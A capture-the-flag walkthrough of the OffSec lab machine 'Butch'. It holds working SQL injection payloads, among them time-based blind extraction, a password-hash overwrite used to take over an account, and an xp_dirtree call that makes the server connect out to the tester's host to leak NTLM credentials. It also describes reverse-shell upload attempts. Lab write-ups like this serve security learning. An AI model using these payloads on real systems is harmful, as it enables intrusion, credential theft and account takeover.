# Butch

## Enumeration

Started with an Nmap TCP SYN scan:


```bash
sudo nmap -sS -Pn -A -p- -o ./enumeration/external_tcp_all.nmap -e tun0 -T4 butch.offsec
```



```
Nmap scan report for butch.offsec (192.168.176.63)
Host is up (0.053s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
25/tcp   open  smtp          Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.45.236], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
450/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Butch
|_http-server-header: Microsoft-IIS/10.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-07T22:31:39
|_  start_date: N/A
```


### Anonymous RPC and SMB

Nothing in the anonymous RPC market:

<figure><figcaption><p>No anonymous rpcclient login</p></figcaption></figure>

I also check out anonymous (and `guest`) SMB access but no dice there either:

<figure><figcaption><p>No uncredentialed SMB either</p></figcaption></figure>

### SMTP User Enumeration

Given that SMTP is exposed I decide to use smtp-user-enum to see what usernames I can find:


```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t 192.168.176.63
```


<figure><figcaption><p>SMTP User Enum</p></figcaption></figure>

I stick these in a `users.txt` file. I fire up some hydra attempts for FTP but no luck.

### HTTP

There is something running HTTP at port 450. I head there and it seems to be some sort of login page:

<figure><figcaption></figcaption></figure>

I capture a request for login:

<figure><figcaption><p>Login request in BurpSuite</p></figcaption></figure>

The `__VIEWSTATE` and `__EVENTVALIDATION` fields are used by ASP.NET to create a stateful interface as HTTP has no inherent states.

I start up a `feroxbuster` session against the site:


```bash
feroxbuster -L 20 -w ./enumeration/web_enum.txt -k -x @/usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt -C 404 -E -r -u http://butch.offsec:450 -o ./enumeration/p450.feroxbuster
```


The only interesting thing that comes of this is finding a `/dev/` directory. It contains 2 files:

<figure><figcaption><p>dev directory</p></figcaption></figure>

The site.master.txt is replicated below:


```
<%@ Language="C#" src="site.master.cs" Inherits="MyNamespaceMaster.MyClassMaster" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
	<head runat="server">
		<title>Butch</title>
		<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
		<meta name="application-name" content="Butch">
		<meta name="author" content="Butch">
		<meta name="description" content="Butch">
		<meta name="keywords" content="Butch">
		<link media="all" href="style.css" rel="stylesheet" type="text/css" />
		<link id="favicon" rel="shortcut icon" type="image/png" href="favicon.png" />
	</head>
	<body>
		<div id="wrap">
			<div id="header">Welcome to Butch Repository</div>
			<div id="main">
				<div id="content">
					<br />
					<asp:contentplaceholder id="ContentPlaceHolder1" runat="server"></asp:contentplaceholder>
					<br />
				</div>
			</div>
		</div>
	</body>
</html>
```


I note that it appears to reference a `site.master.cs` (C#) file and import a custom namespace/class (`MyNamespaceMaster.MyClassMaster`)

### Login SQL

As I start looking at the login form I decide to test if it has an SQL component. I use my usual method of putting SQL control characters in the fields. My first attempt with just an apostrophe (`'`) was successful in causing an error:

<figure><figcaption><p>Login page SQL error</p></figcaption></figure>

### SQL Injection

Now that I have found an injection point I begin working to figure out how to create "valid" SQL queries using the injection point. I eventually work out that I can just close the apostrophe and use a comment to remove the rest of the query:

```sql
' --
```

This causes it to execute as expected. In this case it returned an invalid username message because I effectively tried to login with no credentials

<figure><figcaption><p>Finding the normal execution</p></figcaption></figure>

With some understanding of the query structure I begin looking into determining the number of columns being returned.

#### Column Count

To test the column count I use `UNION` statements. I combine the results with a SELECT and manually-supplied values. When I get an error I know the column number is incorrect, when it succeeds without error I know the column count. I start with 1:

```sql
' UNION SELECT 1 --
```

This fails but when I add a second number I get proper execution and just a failed login:

```sql
' UNION SELECT 1,2 --
```

<figure><figcaption><p>Correct column number</p></figcaption></figure>

#### Credential Leak

I decide to try to use the [`xp_dirtree()`](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478) command to induce a connection to a responder session thus leaking credentials. I start responder:

```bash
sudo responder -I tun0
```

I then prepare the query:

```sql
' OR 1=1; EXEC master.dbo.xp_dirtree '\\192.168.45.236\resp'; -- 
```

Unfortunately I get no credentials in responder. I try setting up my own SMB server with Impacket but the connection is not made. It seems I cannot leak an NTLM hash via this method. Worth a try though.

### Time-Based SQLi

I start turning to a blind SQLi approach. To do this I will use the class time-delay methodology. I create SQL statements that pose yes/no questions and then I can determine the answer based on the delay. For example to just test this out I will use the queries:

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'; -- 
```

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'; -- 
```

The first should cause the page to hang for 10 seconds prior to loading, the second should load immediately. This is because the `IF` statement controls the execution of the `WAITFOR DELAY`. So if whatever is in the `IF` is true there is a delay, if false there is no delay.

When the first is run, the site hangs for 10 seconds before loading the invalid username message (hang not pictured):

<figure><figcaption><p>Test of time-based SQLi</p></figcaption></figure>

With this in mind I can start to enumerate the database a bit.

#### Finding Credentials Table

Generally if I am accessing SQL I am hoping to find some credentials. These will likely be in a table called `credentials`, `users`, `creds`, etc. I can now take guesses at the table name using the time-based query structure created [above](butch.md#time-based-sqli).

Assume for a second there was a table called `usernames` in the database. To select that table the query would be:

```sql
SELECT * FROM sys.tables WHERE name = 'usernames' 
```

To count the number of results I would use the count() command on a specific column e.g.:

```sql
SELECT count(name) FROM sys.tables WHERE name = 'usernames' 
```

Assuming `usernames` exists, the above would return `1`. Therefore it can be placed in the logic query from above:


```sql
'; IF ((SELECT count(name) FROM sys.tables WHERE name = 'usernames' )=1) WAITFOR DELAY '0:0:10'; -- 
```


When I test this, the page loads instantly indicating there is no table called `usernames`. I try it with a few other values: `credentials`, `creds`, `users`. On `users` I notice a 10 second delay. This means I can say there is a table called `users` which likely has some interesting things inside:


```sql
'; IF ((SELECT count(name) FROM sys.tables WHERE name = 'users' )=1) WAITFOR DELAY '0:0:10'; -- 
```


* Command used to verify there is a `users` table

#### Leaking Table Structure

Now that I have a known table, I can begin looking at the columns of the table. It will use the same technique of finding a yes/no-style query and submitting it with different values while timing the response. The query will be


```sql
SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'user'
```


This query will return 1 if there is a column with the name (`c.name`) `user` in the `users` table (`t.name`). If not it returns 0. This can then be placed in the same query structure from above:


```sql
 '; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'user')=1) WAITFOR DELAY '0:0:10'; -- 
```


`user` does not work but my second guess of `username` causes a delay. Now I need to find a password. I try password, pass, cred, credential but all come back immediately. I will need to modify my approach.

#### SQLMap-Like

SQLMap is banned but the rough technique it uses is to do this type of timing but with wildcards (`%` in SQL). So it tries `a%` which matches if the column name starts with an `a`. If not, it tries `b%`, `c%` and so on. Once it finds the first letter, say `u`, it starts again with the second letter: `ua%`, `ub%`, `uc%`, ....

This can be adapted either to a self-written script or I can just use the technique to take some educated guesses. E.g. I am reasonably certain there will be some kind of "password" column so I check for `pass%`:


```sql
SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'pass%'
```


<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong>'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'pass%')=1) WAITFOR DELAY '0:0:10'; -- 
</strong></code></pre>

This causes a delay. Next I try `password%`. This also causes a delay. So the column name must start `password` and continue. I try `passwords%` but no delay. Bad guess. Maybe it is 2 words. I try `password_%`. Delay. I get stuck a bit so I just go back to basics and try `password_a%`, `password_b%`, etc. At `password_h%` I get a delay:


```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'pass%')=1) WAITFOR DELAY '0:0:10'; -- 
```


At this point it clicks and I guess `password_hash` which turns out to be correct:


```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'password_hash%')=1) WAITFOR DELAY '0:0:10'; -- 
```


I validate this with a strict equality check:


```sql
SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'password_hash'
```



```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'password_hash')=1) WAITFOR DELAY '0:0:10'; -- 
```


This works and I now know the `users` table has `username` and `password_hash` columns.

#### Getting a User

Now that I know some columns I begin trying to figure out what is in the rows. My basic plan remains the same. In order to do that I am going to use a SQL query like the following:

```sql
SELECT count(username) FROM users WHERE username LIKE 'a%'
```

Instead of the old `=1` check I will now use `>0` as there could be more than one user starting with a particular letter:


```sql
'; IF ((SELECT count(username) FROM users WHERE username LIKE 'a%')>0) WAITFOR DELAY '0:0:10'; -- 
```


Nothing on `a%` but I get a hit on `b%`. The box is called `butch` so I take a guess:


```sql
'; IF ((SELECT count(username) FROM users WHERE username ='butch')=1) WAITFOR DELAY '0:0:10'; -- 
```


Delay. So there is a user `butch`.

#### Leaking Credentials

So at this point I could script up a query that would leak the credential hash one letter at a time since I know the `username`, and `password_hash` column name:


```sql
SELECT count(username) FROM users WHERE username = butch' AND password_hash LIKE 'a%'
```


This would be put in the injection query and checked one letter at a time:


```sql
'; IF ((SELECT count(username) FROM users WHERE username = butch' AND password_hash LIKE 'a%')=1) WAITFOR DELAY '0:0:10'; -- 
```


This is going to take awhile so I think there might be a better way.

## Foothold

### Overwriting Credentials via SQLi

What if instead of just reading the `users` table I tried updating it? Perhaps I can write my own password\_hash value and login with that. To test this I will use a simple update query. I just want to write some value to the table it does not necessarily have to let me login at this stage. To do this:


```sql
UPDATE users SET password_hash = 'Password123' WHERE username = 'butch'
```


This likely will not let me login with `butch:Password123` as the input is probably hashed prior to comparison with the table meaning if I typed `Password123` into the login form it will be hashed and no longer match the plain text. This is simply to check if I can write to the table without error. I incorporate it with my injection:


```sql
'; UPDATE users SET password_hash = 'Password123' WHERE username = 'butch'; -- 
```


It seems to execute without error as only the expected `invalid user/password` message is returned:

<figure><figcaption><p>Successful write</p></figcaption></figure>

Just to be sure I try logging in with `butch:Password123` but it fails. I will likely need to hash my desired password and then write the hash. Unfortunately I do not know the hashing algorithm so I must try several.

#### Updating Password Hash

So if my desired password is Password123 I will feed that to several well-known hashing algorithms:

* **MD5:** via `md5sum` command
* **SHA1:** via `sha1sum` command
* **SHA256:** via `sha256sum` command

I grab the hashes from a command line:

<figure><figcaption><p>Hashing my password</p></figcaption></figure>

* Do not forget to use the `-n` flag with echo to prevent the trailing new line from ending up in the hash

So now what I will do is:

1. Update `password_hash` with hashed password
2. Attempt login with `butch:Password123`
3. If login fails it means the password hashing algorithm is not the correct one so I must try a different one

All of the above assumes the passwords are not salted. To be sure I check if there is a column in users called `salt%` but thankfully there is not (instant page load):


```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'salt%')=1) WAITFOR DELAY '0:0:10'; -- 
```


This gives me enough confidence to pursue this approach. I start with the MD5 hash and update it with the query:


```sql
UPDATE users SET password_hash = '42f749ade7f9e195bf475f37a44cafcb' WHERE username = 'butch'
```


This is injected with:


```sql
'; UPDATE users SET password_hash = '42f749ade7f9e195bf475f37a44cafcb' WHERE username = 'butch'; -- 
```


Unfortunately this is not the correct algorithm as I cannot login with butch:Password123. I try again with SHA1:


```sql
'; UPDATE users SET password_hash = 'b2e98ad6f6eb8508dd6a14cfa704bad7f05f6fb1' WHERE username = 'butch'; -- 
```


And with SHA256:


```sql
'; UPDATE users SET password_hash = '008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE username = 'butch'; -- 
```


This time when I attempt login it succeeds and I am redirected to a /repo.aspx page:

<figure><figcaption><p>Landing page after login</p></figcaption></figure>

### Authenticated File Upload

At this point it seems like the path is to upload a shell and get rolling. To facilitate this I first must find where uploaded files end up. To do this I create a test.txt file:

```bash
echo 'test' > test.txt
```

I upload the file and then start looking around. Maybe there is an externally-accessible `/upload/` or `/uploads/` directory. None of these pan out. Eventually I find my file at the root of the site:

<figure><figcaption><p>Uploaded file</p></figcaption></figure>

#### Uploading a Shell

At this point I spent (wasted) a bunch of time trying to get a reverse or a webshell working. I tried different languages/formats but I could not get it working.

My first attempt was just a `.aspx` [reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Unfortunately the file type is not allowed:

<figure><figcaption><p>Disallowed file format</p></figcaption></figure>

The file type is not allowed. I try `.asp` next but same thing. Eventually I learn that `.mspx` is a [valid extension for ASP](https://stackoverflow.com/questions/47235/what-is-the-mspx-file-extension) so I try that. This uploads successfully but when I navigate there it seems to have been instantly removed (maybe by Defender or something):

<figure><figcaption><p>.mspx removed</p></figcaption></figure>

I look around but cannot find any ASP.NET vulnerabilities that will allow bypassing whatever checks are being done on the upload. Back to the drawing board.

### Site.Master.cs

I think back to the file `site.master.txt` found it the `/dev/` folder:


```
<%@ Language="C#" src="site.master.cs" Inherits="MyNamespaceMaster.MyClassMaster" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
	<head runat="server">
		<title>Butch</title>
		<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
		<meta name="application-name" content="Butch">
		<meta name="author" content="Butch">
		<meta name="description" content="Butch">
		<meta name="keywords" content="Butch">
		<link media="all" href="style.css" rel="stylesheet" type="text/css" />
		<link id="favicon" rel="shortcut icon" type="image/png" href="favicon.png" />
	</head>
	<body>
		<div id="wrap">
			<div id="header">Welcome to Butch Repository</div>
			<div id="main">
				<div id="content">
					<br />
					<asp:contentplaceholder id="ContentPlaceHolder1" runat="server"></asp:contentplaceholder>
					<br />
				</div>
			</div>
		</div>
	</body>
</html>
```


Something interesting at the first line is the `src=site.master.cs`. I have no idea what that is so I google site.master.cs. I find a couple of things.

#### Master Pages

ASP.NET allows the centralized control of a website's content layout via what it calls [master pages](https://learn.microsoft.com/en-us/aspnet/web-forms/overview/older-versions-getting-started/master-pages/creating-a-site-wide-layout-using-master-pages-cs).

Building a website with a consistent site-wide page layout requires that each web page emit common formatting markup in addition to its custom content. For example, while each tutorial or forum post on [www.asp.net](https://www.asp.net) have their own unique content, each of these pages also render a series of common `<div>` elements that display the top-level section links: Home, Get Started, Learn, and so on.

There are a variety of techniques for creating web pages with a consistent look and feel. A naive approach is to simply copy and paste the common layout markup into all web pages, but this approach has a number of downsides. For starters, every time a new page is created, you must remember to copy and paste the shared content into the page.

Prior to ASP.NET version 2.0, page developers often placed common markup in [User Controls](https://msdn.microsoft.com/library/y6wb1a0e.aspx) and then added these User Controls to each and every page. This approach required that the page developer remember to manually add the User Controls to every new page, but allowed for easier site-wide modifications because when updating the common markup only the User Controls needed to be modified.

A master page is a special type of ASP.NET page that defines both the site-wide markup and the _regions_ where associated _content pages_ define their custom markup. These regions are defined by `ContentPlaceHolder` controls. The `ContentPlaceHolder` control simply denotes a position in the master page's control hierarchy where custom content can be injected by a content page. Below is an example of what the master might look like for www.asp.net:

<figure><figcaption><p>Master page</p></figcaption></figure>

This can then be combined with page-specific resources to create a page:

<figure><figcaption><p>Creation of a page with a master page</p></figcaption></figure>

With this understanding what exactly I found in `/dev/` becomes clear. It seems the `.txt` file is just a copy of the actual ASP.NET which makes up the site's master page structure. It even has `ContentPlaceHolder`s.

This means that the web page is running some C# to create its page when it loads. I also have upload access to the server. So maybe I can overwrite the `site.master.cs` file and get a reverse shell uploaded that way.

#### Malicious Master File

To start with I have no idea what a site.master.cs file should look like. Fortunately Google can provide [a sample](https://github.com/autofac/Examples/blob/master/src/WebFormsExample/Site.Master.cs):


```csharp
using System;
using System.Web.UI;

namespace WebFormsExample
{
    public partial class SiteMaster : MasterPage
    {
        protected void Page_Load(object sender, EventArgs e)
        {

        }
    }
}
```


